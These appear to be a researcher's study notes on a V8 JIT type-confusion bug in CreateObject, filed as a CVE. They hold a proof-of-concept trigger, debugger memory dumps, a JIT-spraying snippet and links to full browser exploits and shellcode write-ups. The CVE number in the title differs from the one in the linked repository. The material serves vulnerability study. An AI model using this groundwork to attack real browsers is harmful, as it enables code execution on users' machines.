


# CVE-2018-17643

`V(CreateObject, Operator::kNoWrite, 1, 1)` indicates CreateObject operation will not have any observable side effects. However, certain operations CAN have obseraveble side effects (e.g. if map has been changed). If these operations that have an obserable side effect are not correctly identified, then they may be removed during the various optimisation phases (such as redundancy elimination).

### Overview

Basically the vulnerability lies in the fact that the kNoWrite flag indicates that the CreateObject operation will not have observable side effects, or in other words, observable changes to the execution of the context. Object.create(obj) causes map of object to change from FastProperties to DictionaryProperties. If we can remove CheckMap, then we can trigger a type confusion.

```
function vuln(obj) {
  obj.a;
  Object.create(obj)
  return obj.b;
}

d8> vuln({a:42, b:43})
43
d8> vuln({a:42, b:43})
43
d8> %OptimizeFunctionOnNextCall(vuln)
undefined
d8> vuln({a:42, b:43})
0
```

- At the point of type confusion, the engine still thinks that the object's properties is FastProperties and hence tries to access the value inline when the properties has already map transitioned into DictionaryProperties, hence 0 is returned (view in memory is better).


### Obtaining buggy source code

```
git checkout 568979f4d891bafec875fab20f608ff9392f4f29
```

### Memory analysis of Fast Properties vs Slow Properties (no bug)

```
let obj = {a:42};
obj.b = 43;

DebugPrint: 000000A155A8DAA9: [JS_OBJECT_TYPE]
 - map: 0x02447288c251 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x01c865e84229 <Object map = 00000244728822F1>
 - elements: 0x00de84002cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x00a155a8db51 <PropertyArray[3]> {
    #a: 42 (data field 0)
    #b: 43 (data field 1) properties[0]
 }

0:000> dq 000000A155A8DAA9-1
000000a1`55a8daa8  00000244`7288c251 | 000000a1`55a8db51 | <- backing store
000000a1`55a8dab8  000000de`84002cf1 0000002a`00000000
000000a1`55a8dac8  000000de`84002341 00000005`00000000
000000a1`55a8dad8  00000001`00000000 000000de`840046f9
000000a1`55a8dae8  000001c8`65ea2049 00000140`00000000
000000a1`55a8daf8  00000001`00000000 000000de`84002341
000000a1`55a8db08  00000008`00000000 00000002`00000000
000000a1`55a8db18  000000de`840046f9 000001c8`65ea2049

0:000> dq 0x00a155a8db51-1
000000a1`55a8db50  000000de`84003899 00000003`00000000
000000a1`55a8db60  0000002b`00000000 000000de`840025a1
000000a1`55a8db70  000000de`840025a1 deadbeed`beadbeef
000000a1`55a8db80  deadbeed`beadbeef deadbeed`beadbeef
000000a1`55a8db90  deadbeed`beadbeef deadbeed`beadbeef
000000a1`55a8dba0  deadbeed`beadbeef deadbeed`beadbeef
000000a1`55a8dbb0  deadbeed`beadbeef deadbeed`beadbeef
000000a1`55a8dbc0  deadbeed`beadbeef deadbeed`beadbeef
```

```
// After map transition via Object.create()

DebugPrint: 000000A155A8DAA9: [JS_OBJECT_TYPE]
 - map: 0x02447288c2f1 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x01c865e84229 <Object map = 00000244728822F1>
 - elements: 0x00de84002cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x00a155a8db79 <NameDictionary[29]> {
   #b: 43 (data, dict_index: 2, attrs: [WEC])
   #a: 42 (data, dict_index: 1, attrs: [WEC])
 }
```

### To do

- Sandbox Escape via AppCache: [Video](https://www.youtube.com/watch?v=MMxtKq8UgwE&ab_channel=OffensiveCon), [Gpz Report](https://bugs.chromium.org/p/chromium/issues/detail?id=888926), [Exploit](https://github.com/niklasb/hack2win-chrome)

### JIT Spraying (R-X)

On earlier versions of Chrome, JIT functions are marked as RWX spaces. For this version of d8 and chrome, JIT-ed functions are marked as R-X. But still technically exploitable

```
const foo = () => { return [1.1, 2.2, 3.3]; }
for (let a = 0; a < 100000 ; a+=1) foo();
foo();
%OptimizeFunctionOnNextCall(foo);
foo();
```






Tldr:

- Breakpoint at code pointer + 0x40

- Machine code should be located at code pointer + 0x100

### References

- [Exploit supported by Metasploit](https://www.exploit-db.com/exploits/48184)

- [GPZ Report](https://bugs.chromium.org/p/chromium/issues/detail?id=888923)

- [Exploit write up by Jack Halon](https://jhalon.github.io/chrome-browser-exploitation-3/)

- [JIT Shellcoding PoC](https://github.com/kdmarti2/CVE-2018-17463)

- [JIT Shellcoding to escape Cage](https://mem2019.github.io/jekyll/update/2022/02/06/DiceCTF-Memory-Hole.html)